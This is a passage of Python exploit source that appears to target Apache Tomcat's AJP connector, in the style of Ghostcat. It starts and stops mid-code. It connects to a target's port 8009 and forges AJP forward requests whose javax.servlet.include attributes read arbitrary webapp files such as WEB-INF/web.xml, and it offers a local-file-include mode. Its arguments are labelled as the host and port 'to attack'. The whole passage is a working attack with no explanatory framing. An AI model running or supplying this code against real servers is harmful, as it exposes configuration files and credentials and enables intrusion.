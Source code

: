 ```
        'Cache-Control': 'max-age=0'
    }
    fr.is_ssl = False
    fr.attributes = []
    return fr

class Tomcat(object):
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.socket.connect((target_host, target_port))
        self.stream = self.socket.makefile("rb", bufsize=0)

    def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[], lfi=False):
        if lfi:
            self.req_uri = req_uri + '.jspx'
        else:
            self.req_uri = req_uri
        self.forward_request = prepare_ajp_forward_request(
            self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
        print("Getting resource at ajp13://%s:%d%s" %
              (self.target_host, self.target_port, req_uri))
        if user is not None and password is not None:
            self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + (
                "%s:%s" % (user, password)).encode('base64').replace('\n', '')
        for h in headers:
            self.forward_request.request_headers[h] = headers[h]
        for a in attributes:
            self.forward_request.attributes.append(a)
        responses = self.forward_request.send_and_receive(
            self.socket, self.stream)
        if len(responses) == 0:
            return None, None
        snd_hdrs_res = responses[0]
        data_res = responses[1:-1]
        if len(data_res) == 0:
            print("No data in response. Headers:%s\n" %
                  snd_hdrs_res.response_headers)
        return snd_hdrs_res, data_res

parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009,
                    help="AJP port to attack (default is 8009)")
parser.add_argument('-w', '--webapp', type=str, default='ROOT',
                    help="Which webapp to attack (default is ROOT")
parser.add_argument('-f', '--file', type=str,
                    default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
parser.add_argument('-l', '--lfi', action="store_true",
                    help="local file include")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_, data = t.perform_request('/'+args.webapp+'/', attributes=[
    {'name': 'req_attribute', 'value': [
        'javax.servlet.include.request_uri', '/']},
    {'name': 'req_attribute', 'value': [
        'javax.servlet.include.path_info', args.file]},
    {'name': 'req_attribute', 'value': [
        'javax.servlet.include.servlet_path', '/']},
```